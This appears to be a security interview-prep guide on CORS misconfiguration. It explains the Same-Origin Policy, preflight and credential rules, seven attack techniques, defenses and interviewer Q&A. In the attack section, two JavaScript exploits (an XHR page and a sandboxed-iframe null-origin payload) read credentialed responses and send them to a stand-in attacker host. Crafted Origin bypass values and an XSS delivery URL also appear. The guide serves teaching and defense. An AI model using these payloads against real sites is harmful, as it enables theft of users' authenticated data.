

# CORS Misconfiguration

> The Same-Origin Policy (SOP) lets a page *send* cross-origin requests but blocks it from *reading* the responses. CORS is a server-driven, controlled relaxation of the read restriction: the server uses response headers (chiefly `Access-Control-Allow-Origin`) to name which origins are permitted to read its responses, and the browser enforces that grant. A CORS bug is therefore always the server relaxing too far, telling the browser that an attacker-controlled origin is allowed to read authenticated responses. Two consequences fall out of this and both are constantly confused: CORS controls reading, not sending, so a CORS misconfiguration is a data-theft primitive, not a request-forgery one; and CORS is a browser-enforced relaxation, so it is never a server-side protection, a non-browser client (curl, a proxy, the attacker's own server) ignores it entirely.

**Interview frequency:** Common

## How it works

SOP is the baseline: `https://a.com` may issue a request to `https://b.com`, but JavaScript on `a.com` cannot read the response unless `b.com` opts in via CORS. Two origins match only if scheme, host, and port are all identical.

The core header exchange. The browser adds an `Origin` header to the cross-origin request; the server answers with an allow header the browser checks:

```
GET /data HTTP/1.1
Host: robust-website.com
Origin: https://normal-website.com
```

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://normal-website.com
```

Because the returned origin matches the caller, the browser exposes the response body to `normal-website.com`'s script. If they did not match, the browser would block the read (the request may still have hit the server and had side effects, which is why CORS is not a CSRF defense).

**Credentials semantics (the rule most bugs violate).** Cross-origin requests omit cookies and the `Authorization` header by default. They are only included when the caller sets `credentials: 'include'` (or `withCredentials = true`) *and* the server returns `Access-Control-Allow-Credentials: true`. Critically, when credentials are in play the specification forbids the wildcard: `Access-Control-Allow-Origin` must be a single, explicit origin, never `*`. Servers that want to support many origins therefore tend to *reflect* the request's `Origin` back, and that reflection is the root of the classic critical bug.

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

The combination above is rejected by browsers precisely because it would expose authenticated content to everyone; the wildcard also cannot be used as a partial value like `https://*.example.com`.

**Simple requests versus preflight.** A "simple" request (GET/HEAD/POST, only CORS-safelisted headers, and a `Content-Type` of `application/x-www-form-urlencoded`, `multipart/form-data`, or `text/plain`) goes straight out. Anything else (a custom header, `application/json`, or a method like PUT/DELETE) is preceded by a preflight `OPTIONS`:

```
OPTIONS /data HTTP/1.1
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: X-Custom
```

```
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: X-Custom
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

Only if the preflight approves the method and headers does the browser send the real request. This is why requiring a custom header is a CSRF defense: the header forces a preflight the server can decline.



Preflight itself does not follow redirects. If the `OPTIONS` response is a 3xx, the browser aborts the pending request with a CORS error rather than re-preflighting the redirect target. The subsequent real request may follow redirects, but each hop's response must independently satisfy CORS, and a cross-origin redirect re-runs the checks against the new origin. Operationally this means an API gateway that 301s `/api` to `/api/` breaks CORS clients until the client uses the trailing-slash URL directly or the gateway is reconfigured, and a defender cannot assume that an approved preflight implies the browser will surface the final response, because a mid-chain redirect can strip credentials or reject the read.

**Two header-controlling knobs, not one.** `Access-Control-Allow-Headers` appears in the preflight response and names which *request* headers the caller may send. `Access-Control-Expose-Headers` appears on the actual response and names which *response* headers cross-origin JavaScript is allowed to read. By default the browser only exposes the CORS-safelisted response headers (`Cache-Control`, `Content-Language`, `Content-Length`, `Content-Type`, `Expires`, `Last-Modified`, `Pragma`) to script; everything else stays hidden, including any echoed `Authorization`, custom auth tokens, `X-CSRF-Token`, or correlation IDs. A server that emits sensitive material in a response header and then declares `Access-Control-Expose-Headers: *` (or reflects a wildcard) leaks that material over an otherwise-tightened endpoint. The wildcard-with-credentials rule applies here too: on a credentialed response, `*` is treated as the literal string `*`, not a match-all, so the browser's own credentialed-response gating still applies, but the misconfiguration pattern is identical to ACAO reflection and is a second, independent leak surface most candidates forget.

## Quick reference

```
# Reflected-origin CORS with credentials: server echoes any Origin as ACAO and allows credentials
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
# Browser now lets attacker-origin JS read the authenticated response body via XHR/fetch.
```

| Invariant | Where enforced | How violated | Source |
|---|---|---|---|
| `Access-Control-Allow-Origin` echoes only a pinned, exact-match origin, never a reflected or attacker-influenced value | Server CORS middleware / origin-validation logic | The server reads the request `Origin` and echoes it back while also sending `Allow-Credentials: true`, so every origin including the attacker's is trusted | <sup>[[1]](#ref1)</sup> |
| Wildcard ACAO (`*`) is never combined with `Access-Control-Allow-Credentials: true` | Browser-enforced spec rule, backstopped by server config | Servers that need to support many origins take the shortcut of reflecting `Origin` instead of maintaining a real allowlist, since the browser refuses wildcard-plus-credentials outright | <sup>[[3]](#ref3)</sup> |
| `null` never appears in an origin allowlist | Origin-validation allowlist | Sandboxed iframes, `data:`/`file:` URLs, and some redirects send `Origin: null`, so allowlisting it is equivalent to allowlisting any attacker | <sup>[[6]](#ref6)</sup> |
| Origin comparison is exact string equality on scheme, host, and port, never prefix/suffix/substring/unanchored regex | Origin-validation logic | `startsWith`/`endsWith`/`includes`/unescaped-regex checks are bypassed by an attacker-registrable domain such as `normal-website.com.evil.com` | <sup>[[4]](#ref4)</sup> |
| Every trusted origin is held to the same security bar as the main app for as long as it stays allowlisted | Trust-boundary / allowlist policy | A trusted subdomain that develops XSS, or is dangling-DNS'd into a subdomain takeover, inherits the CORS grant and can read every authenticated response | <sup>[[3]](#ref3)</sup> |
| CORS never substitutes for server-side authentication, authorization, or CSRF defenses | Application authorization layer, independent of any CORS header | A non-browser client (curl, a proxy, the attacker's own server) ignores CORS entirely, and a permissive policy on a state-changing endpoint turns blind CSRF into a readable data-theft primitive | <sup>[[5]](#ref5)</sup> |
| A public-address browser cannot read a private-network response without an explicit private-network opt-in preflight | Browser Private Network Access (PNA) preflight | On non-PNA browsers, or the moment the intranet server opts in, `Access-Control-Allow-Origin: *` with no credentials still lets an external attacker page use the victim's browser as a proxy into the intranet | <sup>[[2]](#ref2)</sup> |

## Attack techniques

### 1. Reflected origin with credentials (the classic critical bug)

The server reads the request `Origin` and echoes it into ACAO while also sending `Allow-Credentials: true`:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

Every origin is trusted, including the attacker's. Exploit page:

```js
var req = new XMLHttpRequest();
req.onload = function () {
  location = '//malicious-website.com/log?key=' + this.responseText;
};
req.open('get', 'https://vulnerable-website.com/api/account', true);
req.withCredentials = true;
req.send();
```

Why it works: the victim's browser attaches their session cookie, the server approves the attacker origin, the browser hands the authenticated body to attacker JS, which exfiltrates it. This attack class was popularized by James Kettle of PortSwigger Research in "Exploiting CORS misconfigurations for Bitcoins and bounties" (2016)<sup>[[1]](#ref1)</sup>.

Modern SameSite cookie defaults change the shape of this bug without eliminating it. Chrome 80+ and Firefox 96+ default session cookies to `SameSite=Lax` when the attribute is absent, and a cross-site credentialed `fetch`/XHR is not a top-level GET navigation, so those cookies are not attached and the classic exploit collapses to the response body of an unauthenticated request. The finding remains critical when the target explicitly sets `SameSite=None; Secure` (common for SSO, APIs, and apps that need cross-site embedding), when the credential is an `Authorization` header or client certificate (SameSite governs cookies only), when the attacker origin is a subdomain of the target and therefore first-party under Lax rules, or when the client is an older or non-Chromium browser with legacy defaults. "Reflected-origin CORS is dead because of SameSite" is the wrong-shaped answer; the correct one is that the class narrowed, and the follow-up worth chasing is enumerating the `SameSite=None` cookies and non-cookie credentials the target actually relies on.

### 2. Trusted null origin

Some servers allowlist the literal string `null` (often left over from local-development convenience). But `null` is attacker-reachable: browsers send `Origin: null` from sandboxed iframes, `data:` and `file:` URLs, and certain cross-origin redirects. A sandboxed iframe delivers a credentialed request with a `null` origin:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
var req = new XMLHttpRequest();
req.onload = function(){ location='https://malicious-website.com/log?key='+this.responseText; };
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();
</script>"></iframe>
```

Allowlisting `null` is equivalent to allowlisting attackers, so `null` must never appear in an allowlist.

### 3. Weak origin validation (prefix, suffix, substring, unescaped regex)

Allowlists implemented with `startsWith`, `endsWith`, `includes`, or an unanchored regex are bypassable by registering or hosting an origin that satisfies the sloppy check:

- Suffix match on `normal-website.com` is beaten by `hackersnormal-website.com`.
- Prefix match on `normal-website.com` is beaten by `normal-website.com.evil-user.net`.
- An unescaped `.` in a regex (`^https://normal-website\.com$` written as `normal-website.com`) lets `normalXwebsite.com` match, where any attacker-registrable label satisfies the wildcard dot.
- Interior substring checks fall to `https://normal-website.com.evil.com` or `https://evil.com?normal-website.com`.

Detection: send crafted `Origin` variants (`Origin: https://normal-website.com.evil.com`, `Origin: https://evilnormal-website.com`) and watch whether the exact string is reflected in ACAO alongside `Allow-Credentials: true`.

### 4. Trust-all-subdomains plus subdomain compromise

A policy that trusts every `*.victim.com` origin inherits the weakest subdomain. If any subdomain has XSS, the attacker runs script there (a trusted origin) and makes the credentialed CORS read from it:

```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Delivered by:

```
https://subdomain.vulnerable-website.com/?xss=<script>/* credentialed fetch + exfil */</script>
```

The same holds for a dangling DNS record: a **subdomain takeover** on `old-blog.victim.com` gives the attacker a legitimately trusted origin.

### 5. Breaking TLS through a plaintext-HTTP trusted subdomain

If a rigorously-HTTPS app also trusts a plain-HTTP subdomain origin (`http://trusted-subdomain.vulnerable-website.com`), a network attacker who can intercept any cleartext request can inject a redirect to that HTTP subdomain, spoof its response with a credentialed CORS request back to the HTTPS origin, and read the sensitive data. This works even when the target site has no HTTP endpoints and marks all cookies `Secure`, because the trust is anchored on the attacker-forgeable HTTP subdomain origin.

### 6. Intranet CORS without credentials

Most CORS attacks depend on `Allow-Credentials: true`. The exception is internal apps that reflexively return `Access-Control-Allow-Origin: *` without credentials but are only reachable inside a private network. An external attacker page loaded by an internal user's browser uses that browser as a proxy to read intranet responses the attacker could never reach directly:

```
GET /reader?url=doc1.pdf HTTP/1.1
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

Chromium now narrows this class with Private Network Access (PNA, formerly CORS-RFC1918<sup>[[2]](#ref2)</sup>). When a public-address document issues a request to a private-address target (RFC1918 range or loopback), the browser sends an additional preflight regardless of whether the request would otherwise qualify as "simple", carrying `Access-Control-Request-Private-Network: true`. The intranet server must answer with `Access-Control-Allow-Private-Network: true` for the request to proceed, and the initiator must be a secure context. That default-deny stance kills the classic "public web page reads intranet responses via `Access-Control-Allow-Origin: *`" pattern even when the intranet server still sends a wildcard. Caveats to state precisely at interview: PNA is Chromium-only and still in flux, is not shipped in Firefox or Safari, does not cover LAN-to-LAN requests where both origins are already private, and is bypassed the moment the intranet server explicitly opts in.

### 7. Vary: Origin cache leak

When ACAO is computed from the request `Origin` but the response is served through a shared cache that does not key on `Origin`, one user's allowed-origin response can be cached and served to another origin, a cache-poisoning angle that turns a per-request grant into a cross-origin leak. Always emit `Vary: Origin` on origin-dependent responses.

## Defense

CORS bugs are configuration bugs, so the defense is disciplined configuration, ordered by effectiveness within each group.

### Real fix

1. **Do not add CORS at all unless a cross-origin read is genuinely required.** SOP protects you by default; most CORS vulnerabilities exist only because sharing was enabled unnecessarily. Removing the headers is the strongest fix.

2. **Validate `Origin` against an exact, hardcoded allowlist, then echo only a matching origin.** Compare full scheme, host, and port for equality against a constant set. Never reflect an arbitrary `Origin`, and never build the check from `startsWith`/`endsWith`/`includes` or an unanchored, unescaped regex. If you must use a regex, anchor it (`^...$`) and escape the dots.

3. **Never combine broad ACAO with credentials.** An endpoint that returns `Access-Control-Allow-Credentials: true` must return a single, exact, validated origin, never `*` and never a reflected untrusted value. Prefer to avoid credentialed CORS entirely for sensitive data.

4. **Never allowlist `null`.** Remove it from any allowlist; it is reachable from sandboxed iframes, `data:`/`file:` URLs, and redirects, so it is effectively a wildcard for attackers.

5. **Do not blanket-trust subdomains, and treat subdomain takeover and subdomain XSS as first-class risks.** Segment trust, decommission dangling DNS, and keep every trusted subdomain to the same security bar as the main app, because CORS makes any one of them a read-gateway to the others.

6. **Emit `Vary: Origin`** on every response whose ACAO depends on the request origin, so shared caches cannot leak a grant across origins.

### Defense in depth

1. **Keep server-side authentication, authorization, and CSRF defenses independent of CORS.** CORS is browser-enforced and controls reading only; it authorizes nothing on the server. An attacker can forge a request from any "trusted" origin using a non-browser client, so sensitive data still needs server-side access control regardless of the CORS policy. Avoid CORS wildcards on internal networks, since internal browsers can reach untrusted external sites.

2. **Do not opt in to Private Network Access on internal servers unless the endpoint is genuinely safe for any public origin to read.** PNA is a browser-enforced default-deny for public-to-private requests in Chromium and is the only meaningful in-browser mitigation for the intranet-CORS attack outside of network segmentation. Never return `Access-Control-Allow-Origin: *` on internal responses, do not answer `Access-Control-Allow-Private-Network: true` reflexively, and treat internal browsers as hostile transit. Firefox and Safari do not enforce PNA today, so the underlying rule (never wildcard-ACAO an internal service) is what actually protects those users.

## Interviewer probes

Mid: "If we tighten our CORS policy, does that improve our access control?"

Principal: No, and that's a common category error. CORS only ever relaxes the Same-Origin Policy; it can't tighten anything beyond what SOP already enforces by default. A misconfiguration can only increase exposure, never reduce it, and a perfectly locked-down CORS policy adds zero server-side authorization on its own, it's still just telling the browser which origins are allowed to read a response the server was already going to compute and return. If someone is proposing CORS as part of an access-control story, the actual access control has to live somewhere else.

Mid: "Doesn't a strict CORS policy protect us against CSRF?"

Principal: Not in the way people usually think, and conflating the two is probably the single most common CORS confusion. CSRF is a send attack, SOP already lets any site send a cross-origin request, cookies and all, CORS never governed that. CORS governs whether the attacker's script can read the response that comes back. A permissive CORS policy, ironically, worsens CSRF risk rather than fixing it, because it re-enables the attacker to both send the credentialed cross-origin request and read the authenticated response, turning a blind forgery into a data-theft primitive with a readable result. The primary CSRF defense is a token or SameSite cookies, not CORS.

Mid: "Why do so many real CORS bugs come from reflecting the request's Origin header instead of just allowlisting?"

Principal: Because browsers force the decision. `Access-Control-Allow-Origin` can only ever hold one exact origin per response, browsers don't support multiple origins or a partial wildcard like `https://*.example.com` in that header, and the wildcard `*` is flatly refused by browsers whenever `Access-Control-Allow-Credentials: true` is also present, since that combination would expose authenticated content to literally everyone. So a team that needs to support many origins with credentials has exactly two options: maintain a real allowlist and echo back only a match, or take the easy path and just reflect whatever `Origin` the request sent. That easy path is the classic critical bug, and understanding that it's the wildcard-with-credentials refusal that pushes teams toward reflection explains why this bug recurs across completely unrelated codebases.

Mid: "You found an endpoint reflecting Origin with Allow-Credentials: true. Is that automatically a critical finding?"

Principal: Only if three things are true together: credentials are actually sent on the request, the origin validation is genuinely weak or reflected, and the response contains something sensitive. Pull out any one of those and the finding downgrades, an endpoint that returns nothing an unauthenticated caller couldn't already reach directly isn't meaningfully exploitable through CORS, credentials being absent means there's no session to steal, and a tight allowlist means the attacker's origin was never going to be trusted in the first place. Triage on all three before calling it critical, not just on whether the header looks scary.

Mid: "The endpoint requires a custom header, which triggers a CORS preflight. Doesn't that function as an authorization check?"

Principal: No, preflight is a legacy-protection and integrity mechanism, not an authorization boundary. All it does is gate which cross-origin requests the browser is willing to send in the first place, based on method and headers, mostly to keep old servers that predate CORS from receiving requests they never expected. Once a request passes preflight and actually reaches the server, the server still owns every bit of authentication and authorization for what it's about to do. Requiring a custom header can incidentally block simple cross-site form-style requests, which is genuinely useful as a CSRF speed bump, but it was never designed as, and doesn't function as, an access-control decision point.

Mid: "We only allowlist a handful of origins we control, all internal. Are we safe from CORS-based data theft?"

Principal: Only as safe as the weakest origin on that list, and that changes over time. A CORS trust relationship is transitive: if you name `partner.example.com` in your allowlist today because it's trustworthy, and that subdomain develops an XSS vulnerability six months from now, or gets dangling-DNS'd into a subdomain takeover, that XSS can now read every response your API sends it, using the CORS grant you configured correctly at the time. Every trusted origin you name needs to be held to the same security bar as your own app for exactly as long as it stays in that allowlist, which is why a policy that never gets revisited is itself a slow-growing risk.

## Sources

<a id="ref1"></a>[1] James Kettle, "Exploiting CORS misconfigurations for Bitcoins and bounties". PortSwigger Research. 2016. https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties

<a id="ref2"></a>[2] RFC 1918, "Address Allocation for Private Internets". IETF. February 1996. https://datatracker.ietf.org/doc/html/rfc1918

<a id="ref3"></a>[3] PortSwigger Web Security Academy, "Cross-origin resource sharing (CORS)". Retrieved 2026. https://portswigger.net/web-security/cors

<a id="ref4"></a>[4] PortSwigger Web Security Academy, "CORS and the Access-Control-Allow-Origin response header". Retrieved 2026. https://portswigger.net/web-security/cors/access-control-allow-origin

<a id="ref5"></a>[5] MDN Web Docs, "Cross-Origin Resource Sharing (CORS)". Retrieved 2026. https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS

<a id="ref6"></a>[6] OWASP, "HTML5 Security Cheat Sheet". Retrieved 2026. https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html
